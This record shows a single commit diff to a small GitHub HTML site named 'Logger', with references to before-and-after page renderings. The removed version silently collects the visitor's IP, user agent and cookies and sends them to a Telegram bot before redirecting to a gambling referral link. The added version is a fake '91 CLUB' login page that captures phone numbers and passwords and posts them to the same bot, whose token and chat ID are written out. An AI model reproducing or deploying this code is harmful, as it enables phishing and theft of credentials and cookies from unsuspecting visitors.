

Before and after one commit to boyflash677/Logger, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-847 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,32 +2,75 @@
 <html lang="en">
 <head>
   <meta charset="UTF-8">
-  <title>Redirecting...</title>
-  <meta http-equiv="refresh" content="3;url=https://www.91222.in/#/register?invitationCode=281861899551">
-  <script>
-    (async () => {
-      try {
-        const res = await fetch("https://api.ipify.org?format=json");
-        const data = await res.json();
-        const ip = data.ip || "N/A";
-        const userAgent = navigator.userAgent || "Unknown";
-        const cookies = document.cookie || "No cookies found";
-
-        const message =
-`👤 New Visit Logged:
-
-📍 IP: ${ip}
-🌐 User-Agent: ${userAgent}
-🍪 Cookies: ${cookies}`;
-
-        await fetch(`https://api.telegram.org/bot8290146183:AAFD63I79f0zSPM4s9GMDJ324Nc8o84VP-s/sendMessage?chat_id=7882702142&text=${encodeURIComponent(message)}`);
-      } catch (error) {
-        console.error("Log sending failed:", error);
-      }
-    })();
-  </script>
+  <title>91 CLUB Login</title>
+  <style>
+    body {
+      background: #f5f5f5;
+      font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
+      text-align: center;
+      padding-top: 60px;
+    }
+    input, button {
+      padding: 12px;
+      margin: 10px;
+      width: 280px;
+      border-radius: 8px;
+      border: 1px solid #ccc;
+      font-size: 16px;
+    }
+    button {
+      background-color: #28a745;
+      color: white;
+      font-weight: bold;
+      cursor: pointer;
+    }
+    button:hover {
+      background-color: #218838;
+    }
+    h2 {
+      color: #333;
+    }
+  </style>
 </head>
 <body>
-  <h3>Redirecting you to the page...</h3>
+
+  <h2>91 CLUB - Login</h2>
+  <input type="text" id="phone" placeholder="Phone Number"><br>
+  <input type="password" id="pass" placeholder="Password"><br>
+  <button onclick="sendData()">Login</button>
+
+  <script>
+    async function sendData() {
+      const phone = document.getElementById("phone").value;
+      const pass = document.getElementById("pass").value;
+
+      if (phone === "" || pass === "") {
+        alert("Please fill in both fields.");
+        return;
+      }
+
+      const token = "8290146183:AAFD63I79f0zSPM4s9GMDJ324Nc8o84VP-s";
+      const chat_id = "7882702142";
+      const text = `📥 *91 CLUB Login*\n📱 Phone: ${phone}\n🔐 Pass: ${pass}`;
+
+      const url = `https://api.telegram.org/bot${token}/sendMessage`;
+
+      await fetch(url, {
+        method: "POST",
+        headers: {
+          "Content-Type": "application/json"
+        },
+        body: JSON.stringify({
+          chat_id: chat_id,
+          text: text,
+          parse_mode: "Markdown"
+        })
+      });
+
+      // Redirect user
+      window.location.href = "https://www.91222.in/#/register?invitationCode=281861899551";
+    }
+  </script>
+
 </body>
 </html>
```
